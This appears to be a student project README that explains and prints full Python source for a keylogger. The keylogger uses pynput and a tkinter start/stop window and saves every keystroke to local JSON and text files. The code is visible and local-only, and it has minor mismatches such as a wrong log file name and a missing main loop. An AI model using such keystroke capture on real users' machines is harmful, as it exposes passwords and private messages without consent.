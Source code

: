 # project---
Cybersecurity Project on Keylogger Capturing Keystrokes 
First, the module pynput was installed. This module is used to control and monitor keyboard or mouse/trackpad activities. 
Keylogger class was created that contained all the methods tgqt were needed to perform keylogger activities.
 A directory that contained the log files.
A static method was created that returned key information if a key is pressed. 
The project provides a Python implementation of a keylogger. Each key event is stored in a list which is later converted to JSON format and saved to a file.



CODE-
import tkinter as tk
from tkinter import *
from pynput import keyboard
import json

keys_used = []
flag = False
keys = ""

def generate_text_log(key):
    with open('key_log.txt',"w+") as keys:
        keys.write(key)

def generate_json_file(keys_used):
    with open('key_log.json', '+wb') as key_log:
        key_list_bytes = json.dumps(keys_used).encode()
        key_log.write(key_list_bytes)
    
def on_press(key):
    global flag, keys_used, keys
    if flag == False:
        keys_used.append(
            {'Pressed':f'{key}'}
        )
        flag = True
    
    if flag == True:
        keys_used.append(
            {'Held':f'{key}'}
        )
    generate_json_file(keys_used)


def on_release(key):
    global flag, keys_used, keys
    keys_used.append(
        {'Released':f'{key}'}
    )

    if flag == True:
        flag = False
    generate_json_file(keys_used)

    keys = keys+str(key)
    generate_text_log(str(keys))

def start_keylogger():
    global listener
    listener = keyboard.Listener(on_press=on_press, on_release=on_release)
    listener.start()
    label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'")
    start_button.config(state='disabled')
    stop_button.config(state='normal')

def stop_keylogger():
    global listener
    listener.stop()
    label.config(text="Keylogger stopped.")
    start_button.config(state='normal')
    stop_button.config(state='disabled')

root = Tk()
root.title("Keylogger")

label = Label(root, text='Click "Start" to begin keylogging.')
label.config(anchor=CENTER)
label.pack()

start_button = Button(root, text="Start", command=start_keylogger)
start_button.pack(side=LEFT)

stop_button = Button(root, text="Stop", command=stop_keylogger, state='disabled')
stop_button.pack(side=RIGHT)

root.geometry("250x100") 

RESULTS:
A keylogger records keystrokes made by the user on their computer. Keyloggers can be used for monitoring employee activities or detecting and preventing unauthorised access.
